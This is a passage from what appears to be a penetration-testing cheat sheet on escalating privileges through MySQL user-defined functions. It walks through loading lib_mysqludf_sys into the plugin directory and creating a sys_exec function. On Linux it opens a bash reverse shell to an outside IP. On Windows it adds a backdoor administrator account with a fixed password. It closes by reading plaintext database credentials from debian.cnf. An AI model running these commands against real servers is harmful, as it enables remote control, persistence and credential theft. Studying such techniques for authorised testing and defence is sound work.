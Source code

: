 Now that we have the library, login inside the Mysql as a privileged user (root?) and follow the next steps:

**Linux**

```bash
# Use a database
use mysql;

# Create a table to load the library and move it to the plugins dir
create table npn(line blob);

# Load the binary library inside the table
## You might need to change the path and file name
insert into npn values(load_file('/tmp/lib_mysqludf_sys.so'));

# Get the plugin_dir path
show variables like '%plugin%';

# Supposing the plugin dir was /usr/lib/x86_64-linux-gnu/mariadb19/plugin/
# dump in there the library
select * from npn into dumpfile '/usr/lib/x86_64-linux-gnu/mariadb19/plugin/lib_mysqludf_sys.so';

# Create a function to execute commands
create function sys_exec returns integer soname 'lib_mysqludf_sys.so';

# Execute commands
select sys_exec('id > /tmp/out.txt; chmod 777 /tmp/out.txt');
select sys_exec('bash -c "bash -i >& /dev/tcp/10.10.14.66/1234 0>&1"');
```

**Windows**

```bash
# Check the linux comments for more indications

USE mysql;
CREATE TABLE npn(line blob);
INSERT INTO npn values(load_file('C://temp//lib_mysqludf_sys.dll'));
show variables like '%plugin%';
SELECT * FROM mysql.npn INTO DUMPFILE 'c://windows//system32//lib_mysqludf_sys_32.dll';
CREATE FUNCTION sys_exec RETURNS integer SONAME 'lib_mysqludf_sys_32.dll';
SELECT sys_exec("net user npn npn12345678 /add");
SELECT sys_exec("net localgroup Administrators npn /add");
```

**Extracting MySQL credentials from files**

Inside _/etc/mysql/debian.cnf_ we can find the **plain-text password** of the user **debian-sys-maint**

```bash
cat /etc/mysql/debian.cnf
```

We can **use these credentials to login in the mysql database**.
